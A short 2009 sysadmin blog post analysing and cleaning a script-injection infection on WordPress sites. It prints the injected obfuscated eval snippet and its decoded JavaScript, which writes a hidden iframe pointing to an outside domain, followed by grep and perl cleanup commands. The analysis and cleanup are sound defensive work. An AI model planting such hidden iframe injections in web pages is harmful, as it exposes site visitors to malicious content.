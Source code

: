 ```yaml
---
author: gerold-mercadero
date: '2009-03-22 12:25:15'
layout: post
slug: heurtrojanscriptiframe
status: publish
title: HEUR:Trojan.Script.Iframe
wordpress_id: '432'
categories:
- News
- Security
tags:
- virus
---
```


One of my friend asked for help about virus appearing on his sites (mostly WordPress sites).  I checked it out and my Kaspersky Internet Security blocked the pages from loading, so i downloaded the files manually and scanned html with Kaspersky to determine affected files.


![virus2](http://linuxsysadminblog.com/wp-content/uploads/2009/03/virus2-220x300.gif)



I noticed that the affected files were PHP and HTML only and if you compare the code of the original WordPress files with the infected one you will see the difference.  Below are sample added codes/virus:



HTML files: `<script type="text/javascript">eval(String.fromCharCode(118,97...50,55))</script>`
PHP files:  `<?php echo '<script type="text/javascript">eval(String.fromCharCode(118,97...50,55))</script>'; ?>`

**What it does**
I'm not a virus expert and I'm curios on what this portion of code does so i looked at it.  In our case the resulting text add this portion of code to the html or php files:

`var fggge3="si";
var w345="pl";
var re6="ank.";
var rr="com";
var a="if";
var s="tt";
document.write('<'+a+'rame src="h'+s+'p://'+fggge3+''+w345+''+re6+''+rr+'/'+'qqp/'+''+''+'" style="d'+'isplay:n'+'one">');
var t=00001217
`

and you can see it tries to load an iframe:

`<iframe src=http://siplank.com/qqp/ style=display:none>`

**Virus Removal**
You can remove the virus by just deleting the code (sample above) on the affected files.  If you need to cleanup hundred of infected files (in our case more than 800) you can do the following:

- Get the list of infected files.  You can use grep to search for them
`grep -Z -R "eval(String.fromCharCode(118,97,114" /path/to/site/* >> affected_file_list.txt`
- Delete the codes by using perl/sed commands.  Repeat the commands for every files.
`perl -pi -e 's/\<script type="text\/javascript"\>eval\(String.fromCharCode\(118,97,114...51,51\)\)\<\/script\>//'  /path/to/affected/file.htm
perl -pi -e "s/\<\?php echo ''; \?\>\<\?php echo ''; \?\>//"  /path/to/affected/file.php`

Or create a bash/shell script to do the cleanup at once:
`
while read line
do
perl -pi -e 's/\<script type="text\/javascript"\>eval\(String.fromCharCode\(118,97,114...51,51\)\)\<\/script\>//'  $line
perl -pi -e "s/\<\?php echo ''; \?\>\<\?php echo ''; \?\>//"   $line
done < affected_file_list.txt
`

That's all.

I don't know how the attacker gained access to the files and inserted the codes because the file permissions are ok - maybe they gain ftp access.
